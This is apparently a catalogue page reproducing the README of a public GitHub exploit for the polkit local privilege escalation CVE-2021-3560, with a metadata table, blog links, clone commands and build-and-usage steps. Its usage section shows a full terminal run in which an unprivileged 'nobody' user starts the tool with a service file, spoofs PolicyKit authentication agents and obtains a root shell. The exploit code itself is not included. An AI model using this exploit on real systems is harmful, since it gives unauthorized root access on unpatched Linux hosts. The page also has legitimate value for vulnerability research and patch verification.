 # CVE-2021-3560-Authentication-Agent

PolicyKit CVE-2021-3560 Exploit (Authentication Agent)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/RicterZ](https://github.com/RicterZ) |
| Url      | [https://github.com/RicterZ/CVE-2021-3560-Authentication-Agent](https://github.com/RicterZ/CVE-2021-3560-Authentication-Agent)                                               |
| Stars    | 114                                                          |
| License  | Apache License 2.0                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

PolicyKit CVE-2021-3560 Exploit  (Authentication Agent)
====

### Technology Details
Blog posts about this exploit : 
- https://ricterz.me/posts/2022-04-28-a-new-exploit-method-for-cve-2021-3560-polkit-linux-privilege-escalation.txt
- http://noahblog.360.cn/a-new-exploit-method-for-cve-2021-3560-policykit-linux-privilege-escalation

## Build & Usage
```
nobody@test:/tmp/CVE-2021-3560$ go build
nobody@test:/tmp/CVE-2021-3560$ ./CVE-2021-3560 ./pwnkit.service
=== polkit CVE-2021-3560 exploit - RicterZ @ 360 Noah Lab ===
pid-267920 - [*] Registering PolicyKit authentication agent ...
...
pid-267915 - [-] Exploit failed, please try again
nobody@test:/tmp/CVE-2021-3560$ ./CVE-2021-3560 ./pwnkit.service
=== polkit CVE-2021-3560 exploit - RicterZ @ 360 Noah Lab ===
pid-267963 - [*] Registering PolicyKit authentication agent ...
pid-267963 - [*] Authentication agent main loop running ...
pid-267968 - [*] Registering PolicyKit authentication agent ...
pid-267973 - [*] Registering PolicyKit authentication agent ...
pid-267968 - [*] Authentication agent main loop running ...
pid-267973 - [*] Authentication agent main loop running ...
pid-267963 - [*] Starting systemd service 'pwnkit.service' ...
pid-267968 - [*] Enabling systemd unit file '/tmp/pwnkit.service' ...
pid-267973 - [*] Reloading systemd daemon ...
pid-267963 - [+] Received authentication request for action: 'org.freedesktop.systemd1.manage-units'
pid-267963 - [*] Cookie: 100-9b8357901e7f4f4847cbd15a3d191cc4-1-10167c9df23ebe27c57534750f48ef7a
pid-267968 - [+] Received authentication request for action: 'org.freedesktop.systemd1.manage-unit-files'
pid-267968 - [*] Cookie: 101-48273279f75230e86c9ad5df212ee54d-1-a86a81adcf07ad16ab6017a21235da80
pid-267973 - [+] Received authentication request for action: 'org.freedesktop.systemd1.reload-daemon'
pid-267973 - [*] Cookie: 102-3fb9b174b470f5d04881cbfeb16a60d0-1-8a36d3a7f9aca22af0a0f8562f20dbe2
pid-267958 - [+] File exists, popping root shell ...
pwned-5.0# id
uid=65534(nobody) gid=65534(nogroup) euid=0(root) egid=0(root) groups=0(root),65534(nogroup)
```

## License
Apache License



## Get the content

```
git clone https://github.com/RicterZ/CVE-2021-3560-Authentication-Agent
cd CVE-2021-3560-Authentication-Agent
```

{% embed url="https://github.com/RicterZ/CVE-2021-3560-Authentication-Agent" %}

<figure><img src="https://avatars.githubusercontent.com/u/5282759?v=4" alt=""><figcaption><p>RicterZ</p></figcaption></figure>
